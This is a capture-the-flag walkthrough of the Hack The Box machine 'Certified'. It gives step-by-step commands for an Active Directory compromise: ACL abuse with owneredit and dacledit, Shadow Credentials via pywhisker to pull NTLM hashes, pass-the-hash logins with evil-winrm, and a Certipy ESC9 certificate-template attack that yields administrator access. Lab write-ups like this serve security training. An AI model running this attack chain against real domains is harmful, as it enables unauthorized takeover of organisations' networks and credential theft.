

## Enumeration

This time we are facing a Windows machine. When scanning ports, we see a large number of open ports.


This suggests we might be dealing with an [Active Directory](# "Microsoft service that manages users, machines and resources on a network, centralizing authentication and permissions.") instance, so we'll perform basic enumeration before using [BloodHound](# "Tool that analyzes relationships in Active Directory to identify attack paths and potentially exploitable privileges."). It seems like a perfect machine to understand how enumeration works in Windows environments and how we can rule out potential routes to gain access.

We'll run the basic script scan with nmap.


The scripts show a domain and its subdomains, which we can add to the `/etc/hosts` file so that our machine can resolve them and redirect them to the corresponding IP.

Hack The Box provides the credentials **username**: _judith.mader_ **password**: _judith09_ 

- We check if WinRM is active and accessible on DC01.

```bash
nxc smb certified.htb -u 'judith.mader' -p 'judith09'
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09
```

> The service is active, but we don't have the correct credentials to access it.

- We list the SMB shares, but we don't find anything relevant that draws our attention.
```bash
nxc smb certified.htb -u 'judith.mader' -p 'judith09' --shares
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share 
```
We can view everything more comfortably using _**ldapdomaindump**_ and by deploying a local web service to review groups and users. 

## Reconnaissance

We can now start to see how we'll use BloodHound to obtain access to the machine and visualize the path we should follow to gain administrator access.
First we must obtain our `.zip` file to upload it to BloodHound.

##### BloodHound

To obtain our `.zip` file we will use [bloodhound.py](https://github.com/dirkjanm/BloodHound.py).

```
python3 bloodhound.py -u judith.mader -p judith09 -ns 10.10.11.41 --zip -c All -d certified.htb
```

To set up the [BloodHound](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart) web server, just follow the instructions on the official site — it's a fairly straightforward process.

This will give you a password that you can use to log in together with the `admin` user.


Once inside, there is an _Upload Files_ button where we will upload the `.zip` file that contains several JSON files with the collected domain information.

Now comes the interesting part: if you've never used BloodHound, at first it can seem confusing, but it's actually quite intuitive. With the file uploaded, we can start exploring how the Active Directory is structured.

The most common approach is to list a short path to the administrator and see how it is organized: the permissions of each group and the existing users (this is only to get an idea of the AD structure).


Now that we have a small idea of the organization, let's see what our user _judith.mader_ can do. To do that, we mark them with [Add Owned](# "Marks a user or machine as compromised in BloodHound to recalculate attack paths from that point.").


BloodHound allows us to see what administrative capability we have over other objects and thus escalate privileges within the **AD**. The method I use is to review the _Outbound Object Control_ until I see how far I can go and then create a path to escalate.


With the path defined, we begin our escalation.

## Exploitation

To escalate in Active Directory, BloodHound indicates the control relationships within the AD graph. The first one we find is _judith.mader_ → _Management_.


The first escalation consists of changing the object's owner, granting ourselves special permissions on the group and, once we have those permissions, adding ourselves to it. Most of these tools are in the [CertiPy](https://github.com/ly4k/Certipy) repository, inside the `bin` directory.

##### _judith.mader_ → _Management_

- 1º [Owneredit](# "Impacket script that allows changing the owner of an object in Active Directory to take control over it.") to take control of the object.

```python
owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09'
```

- 2º [dacledit.py](# "Impacket script that modifies ACLs in Active Directory to grant or revoke permissions on an object.") to grant ourselves write permissions.

```python
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=Certified,DC=HTB' 'certified.htb/judith.mader:judith09'
```

- 3º [net](# "Samba tool that allows administering users and groups in Windows/AD environments from the command line.") to add ourselves to the group.

```python
net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"
```

With this we add ourselves to the group. To confirm if we are inside, we can use [rpcclient](# "Samba tool that allows interacting with Windows RPC services to enumerate and administer domain resources.").


We can now confirm that we have been added successfully.


##### _Management_ → _Management_svc_

At this step to escalate there are two options: crack a hash or use _Shadow Credentials_. To avoid lengthening the article, the hash is not found in the **rockyou** dictionary, so I'll show how [Shadow Credentials](# "Technique that abuses permissions in AD to add alternative keys to an account and authenticate as it without knowing its password.") work.


- 1º To use _Shadow Credentials_ we install [pywhisker](https://github.com/ShutdownRepo/pywhisker)

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```


This will return a hash and a _URL_ to clone the repository, which contains tools to obtain our [TGT](# "TGT: Ticket Granting Ticket issued by the KDC in Kerberos, used to request other service tickets without re-sending credentials."). 

Requirements to use it: 

    > .pfx file
    > [i] Passwort für PFX: <content>

```python
python3 gettgtpkinit.py -cert-pfx bULgmTV1.pfx -pfx-pass bGF4SsQMag0V5oke1LTg -dc-ip 10.10.11.41 certified.htb/management_svc management.ccache
```
<span style="font-size:12px">_To use this tool, your time and the victim's must be synchronized. This can be done with `ntpdate`._</span>


- [getnthash.py](# "Impacket script that extracts the NTLM hash of a user in Active Directory using their valid credentials.") to extract the hash.

```
python3 getnthash.py -key ac0dc7ee3fcba2a2bf12be74a37e15607bb61d8766e3b7de09b100aa0d485a0b -dc-ip 10.10.11.41 certified.htb/management_svc
```

If it gives an error indicating that the TGT was not found in the Kerberos cache, we must specify it using the `KRB5CCNAME` variable.

```bash
KRB5CCNAME=management.ccache python3 getnthash.py -key ee16ec89d07c92667f8a3e1535269f5dcd606eba51f09f3375515ecfec46fff0 -dc-ip 10.10.11.41 certified.htb/management_svc
```

##### Logging in as the user management_svc

With the hash obtained, we confirm if we can connect via WinRM.

```bash
nxc winrm certified.htb -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584'
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```

Indeed, we can connect with _evil-winrm_. On the desktop we will find the first flag.

```
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

#### Accessing as administrator

Since we have the hashes of the user _management_svc_, we can run another _Shadow Credentials_ attack.


We use `pywhisker` again to obtain our password and the `.pfx` file, this time as the user _management_svc_ attacking _ca_operator_.

```python
pywhisker -d "certified.htb" -u "management_svc" --hashes :a091c1832bcdd4677c28b5a6a1295584 --target "ca_operator" --action "add"
```

And we repeat the previous process.

- 1º We create the TGT:

```
python3 gettgtpkinit.py -cert-pfx ../mmzBceHE.pfx -pfx-pass cBdb8wYDwF93taIIZe7L -dc-ip 10.10.11.41 certified.htb/ca_operator ca_operator.ccache
```
- 2º We generate the hash:

```
KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key d54f430c7131a345a23df9eb39dc13a56d3dbb85e292ce2628a19c906242c4b9 -dc-ip 10.10.11.41 certified.htb/ca_operator
```

Remember that the clocks must be synchronized.

#### Granting administrator privileges



We enumerate the privileges of the user _ca_operator_ and find that it has a template vulnerable to the **ESC9** attack.


In the [repository](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) we find the method to escalate privileges.

- 1º We update the victim's UPN (_ca_operator_) so that it points to the administrator's `sAMAccountName`:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'administrator' -user 'ca_operator' update
```
- 2º We request a certificate by abusing the insecure template using the victim's credentials:

```
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```
- 3º We revert the victim's UPN:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'ca_operator' -user 'ca_operator' update
```
- 4º We authenticate using the obtained certificate:

```
certipy auth -pfx administrator.pfx -domain certified.HTB
```


Now we have a hash to access as administrator. We verify if we can log in via WinRM.


By connecting with Evil-WinRM, we access the administrator's desktop and obtain the final flag.

```
evil-winrm -i 10.10.11.41 -u "administrator" -H '0d5b49608bbce1751f708748f67e2d34'
```

# END
